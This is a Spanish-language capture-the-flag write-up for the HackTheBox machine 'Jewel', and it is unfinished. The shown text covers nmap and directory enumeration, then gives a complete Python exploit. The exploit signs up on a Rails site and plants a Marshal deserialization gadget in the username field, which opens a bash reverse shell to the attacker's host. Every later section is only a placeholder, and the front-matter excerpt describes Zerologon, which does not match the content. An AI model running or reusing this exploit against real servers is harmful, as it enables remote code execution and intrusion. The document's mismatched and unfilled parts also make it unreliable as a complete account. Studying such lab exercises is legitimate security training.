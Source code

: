 ```yaml
---
title: HackTheBox Jewel
layout: single
excerpt: Mucho se está hablando acerca de la nueva vulnerabilidad Zerologon, pero...
  ¿realmente es crítica?. Lo analizaremos en detalle en este artículo.
date: '2020-09-16'
classes: wide
header:
  teaser: "/assets/images/zerologon/zerologon.png"
  teaser_home_page: true
categories:
- Utilidades
- Exploits
- Vulnerabilidades
- HackTheBox
tags:
- Pentesting
- Herramientas
- Windows
- Linux
- Domain Controller
- Guías
- Privilege Escalation
---
```


<div style="float: left; margin-left: 45px; margin-right: 35px;margin-top: 35px;">
	<table>
                                <thead>
                                   <tr>
                                        <th>Column  </th><th>
                                            Detalles
                                </th></tr></thead><tbody>
                                    <tr>
                                        <td>Name
                                        </td><td>
                                            Jewel
                                    </td></tr><tr>
                                        <td>IP
                                        </td><td>
                                            10.10.10.211
                                    </td></tr><tr>
                                        <td>Points
                                        </td><td>
                                            30
                                    </td></tr><tr>
                                        <td>Os
                                        </td><td>
                                            Linux
                                    </td></tr><tr>
                                        <td>Medium
                                        </td><td>
                                            Hard
                                    </td></tr><tr>
                                        <td>Creator
                                        </td><td>
                                            <a href="https://www.hackthebox.eu/home/users/profile/159204" target="_blank">polarbearer</a>
                                    </td></tr><tr>
                                        <td>Out On
                                        </td><td>10 Oct 2020
                            </td></tr></tbody>
</table>
	</div>
	
<div>
	<p align="left">
<img src="/assets/images/jewel/jewel.png">
</p>
</div>

# Resumen

* [`Nmap` muestra los 3 puertos abiertos.](#nmap-muestra-los-3-puertos-abiertos) 
- [Conseguir el `web server`](#conseguir-el-web-server)
- [Inyecctando la `Shell` en el servidor](#inyecctando-la-shell-en-el-servidor)
- [Conseguir la `Shell` desde el servidor](#conseguir-la-shell-desde-el-servidor)
- [Conseguir el password de la cuenta de bill en los `backups del servidor`](#conseguir-el-password-de-la-cuenta-de-bill-en-los-backups-del-servidor)
- [Obtener el codigo de `Google Authenticator`](#obtener-el-codigo-de-google-authenticator)
- [Usando el comando `sudo -l`](#usando-el-comando-sudo--l)
- [Con la ayuda de GTFO bins obtenemos el root.txt](#con-la-ayuda-de-gtfo-bins-obtenemos-el-roottxt)


## `Nmap` muestra los 3 puertos abiertos.
Primero añadinos a nuestro `/etc/hosts` la máquina Jewel.
```bash 
echo "10.10.10.211  jewel.htb" >> /etc/hosts
```
Cada uno tiene su forma de hacer la enumeración de puertos/servicios corriendo bajo un sistema. Yo generalmente suelo seguir estos pasos.

* scaneo inicial de puertos abiertos sobre el sistema

```bash 
nmap -nmap -p- --open -T5 -v -n 10.10.10.211
```
<p align="center">
<img src="/assets/images/jewel/nmap1.png">
</p>

* Enumeración del servicio y versionado para los puertos descubiertos sobre el sistema

```bash
nmap -p$(cat allPorts | grep -oP '\d{2,5}/open' | awk '{print $1}' FS="/" | xargs | tr ' ' ',') -sC -sV 10.10.10.211 -oN targeted
```
La razón de hacer esto es que me parece mucho más ágil el poder tener una visual de los puertos abiertos de un primer tirón para el escaneo inicial, así en lo que posteriormente lanzo el profundo de enumeración de servicios con los scripts básicos de enumeración, puedo ir enumerando por mi cuenta los puertos que corren servicios conocidos (HTTP, HTTPS, FTP, ms-sql-s, etc.).

* En caso de contar con un escaneo inicial lento, suelo aplicar la siguiente variante

```bash
nmap -A -T4 -v 10.10.10.211 -oN misc
```

Este escaneo no engloba todos los puertos, y probablemente nos estemos saltando algunos interesantes que escapen de este escaneo. En tal caso podemos ir englobando rangos de búsqueda a fin de determinar los puertos que están abiertos (Pues lanzando el -p- cuando se demora mucho tiempo nmap suele detener el escaneo haciéndolo incompleto):

```bash
nmap -p1-10000 --open -T5 -v ipHost -n -oG range1-10000
nmap -p10000-20000 --open -T5 -v ipHost -n -oG range10000-20000
nmap -p20000-30000 --open -T5 -v ipHost -n -oG range20000-30000
                        .
                        .
                        .
```

En caso de figurar un servicio HTTP corriendo bajo un puerto, podemos aprovecharnos del script http-enum.nse de nmap para enumerar directorios y archivos del servicio web (Cuenta con un diccionario pequeño pero nos puede servir para tener una visual rápida sobre los recursos alojados):

```bash
nmap --script=http-enum.nse -p80,443,8080 10.10.10.211 -oN webScan
```

* Visualización de categorías para los scripts de nmap

```bash
grep -r categories /usr/share/nmap/scripts/*.nse | grep -oP '".*?"' | sort -u
```

Estas categorías son todas las que nmap posee, pudiendo por ejemplo para un servicio FTP o SMB aplicar las siguientes categorías:

```bash
nmap -p21,445 --script="vuln and safe" 10.10.10.211 -oN vulnSafeScan
```






```bash 
nmap --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.211 -oG allPorts
```
<p align="center">
<img src="/assets/images/jewel/nmap2.png">
</p>

```bash
extractPorts allPorts
```

```bash 
which extratPorts
```

```bash 
nmap -sC -sV -p8080 10.10.10.211 -oN targeted
```

```bash 
sudo whatweb http://10.10.10.211:8080 2>/dev/null
```

```bash 
nmap --script http-enum -p8080 10.10.10.211 -oN webScan
```

```bash 
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.211:8080/FUZZ
```

```bash 

```


## Conseguir el `web server`
Script en python para conseguir `Shell`

```python
import requests
import re
import sys

URL='http://{}:8080'.format(sys.argv[1])
username='myuser4'
password='mypass4'
email='myuser4@mail.com'

if len(sys.argv) != 4:
    print("specify target IP, your IP and port: python3 rev.py 10.10.xx.xx 9001")
    exit(0)

s = requests.Session()

resp = s.get(URL + '/signup')
rx = r'token" content="(.*)"'

token = re.search(rx,resp.text).group(1)

# create user
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['user[username]'] = username
data['user[email]'] = email
data['user[password]'] = password
data['commit'] = 'Create User'
resp = s.post(URL + '/users', data=data)

# login
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['session[email]'] = email
data['session[password]'] = password
data['commit'] = 'Log in'
resp = s.post(URL + '/login', data=data)

rx = r'href="/users/(.*)"'
user_id = re.search(rx,resp.text).group(1)

# rev shell
rev = "bash -c 'bash -i >& /dev/tcp/{}/{} 0>&1'".format(sys.argv[2], sys.argv[3])
payload = '\x04\x08o\x3A\x40ActiveSupport\x3A\x3ADeprecation\x3A\x3ADeprecatedInstanceVariableProxy'
payload += '\x09\x3A\x0E\x40instanceo\x3A\x08ERB\x08\x3A\x09\x40srcI\x22'
payload += '{}\x60{}\x60'.format(chr(len(rev)+7), rev)
payload += '\x06\x3A\x06ET\x3A\x0E\x40filenameI\x22\x061\x06\x3B\x09T\x3A\x0C\x40linenoi\x06\x3A\x0C\x40method\x3A'
payload += '\x0Bresult\x3A\x09\x40varI\x22\x0C\x40result\x06\x3B\x09T\x3A\x10\x40deprecatorIu\x3A\x1F'
payload += 'ActiveSupport\x3A\x3ADeprecation\x00\x06\x3B\x09T'

data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['_method'] = 'patch'
data['user[username]'] = payload
data['commit'] = 'Update User'
s.post(URL + '/users/' + user_id, data=data)
s.post(URL + '/users/' + user_id, data=data)

s.get(URL + '/articles')
```

## Inyecctando la `Shell` en el servidor
xxxxxxxxxxxxxxx

## Conseguir la `Shell` desde el servidor
xxxxxxxxxxxxxxx

## Conseguir el password de la cuenta de bill en los `backups del servidor`
xxxxxxxxxxxxxxx

## Obtener el codigo de `Google Authenticator`
xxxxxxxxxxxxxxx

## Usando el comando `sudo -l`
xxxxxxxxxxxxxxx

## Con la ayuda de GTFO bins obtenemos el root.txt
xxxxxxxxxxxxxxxc
